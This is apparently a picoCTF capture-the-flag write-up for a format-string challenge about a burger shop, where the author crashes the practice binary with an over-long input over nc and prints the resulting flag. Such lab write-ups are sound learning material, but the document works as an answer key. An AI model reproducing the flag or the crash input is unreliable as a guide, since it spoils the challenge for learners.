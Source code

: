 # Description
Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 58809

# Solution
Running an instance of it we get 
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

Looking at the source code - 
![image](https://github.com/user-attachments/assets/c57e06b9-977d-45dc-83dc-aee86b988d45)

In the start only the BUFSIZE is limited to 32, so like in the challenge `Bufferoverflow 0` putting anything 
which has more characters than 32 would do right  ? 

( Didnt even have to look at the code and it worked hehehehe) 

The final terminal would be like 
```
kafka@Kafka:~$ nc mimas.picoctf.net 58809
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: kafkaaaaaaaaaaasdfasdfawsdfaweakaaaakfawwaaaaakfaaakaaaakfaaa
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

The flag is 
>picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
